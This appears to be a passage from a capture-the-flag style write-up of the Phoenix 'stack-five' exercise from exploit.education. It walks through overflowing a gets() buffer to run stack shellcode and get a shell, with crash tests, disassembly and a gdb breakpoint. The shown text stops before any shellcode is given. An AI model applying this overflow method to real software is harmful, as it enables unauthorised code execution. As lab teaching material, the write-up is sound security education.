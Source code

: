 ```c
}
```

In HINT they have mentioned that this challenge is something related to "shellcode"

Our aim on this challenge is to execute our shellcode in stack and pop a shell

Important things to note in this binary are,

```c
  char buffer[128];
  gets(buffer);
```

Our ```buffer``` is large enough to accomodate our shellcode

```gets()``` is used, so we can use this as our advantage to perform an overflow attack

First lets try to crash this binary,

```c
user@phoenix-amd64:~$ python -c "print('A'*100)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:~$ python -c "print('A'*128)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
user@phoenix-amd64:~$ python -c "print('A'*150)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
```

So we are able to crash our binary

We will analyse it further in our debugger

Inorder to pass a shellcode and execute it successfully, we must point our ```$rip``` return address correctly to the address where shellcode is placed

Here we will be passing shellcode into our ```buffer```

So we need to know the starting address of the ```buffer```

```c
   0x0000000000400595 <+8>:	  lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
```

Since ```gets()``` is used to store the data inside ```buffer```, we can use break point to analyse the value of ```rbp-0x80``` which is the starting address of ```buffer```

Setting breakpoint,

```c
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	  push   rbp
   0x000000000040058e <+1>:	  mov    rbp,rsp
   0x0000000000400591 <+4>:	  add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	  lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave
   0x00000000004005a3 <+22>:	ret
End of assembler dump.
gdb) b *0x000000000040059c
Breakpoint 1 at 0x40059c
```
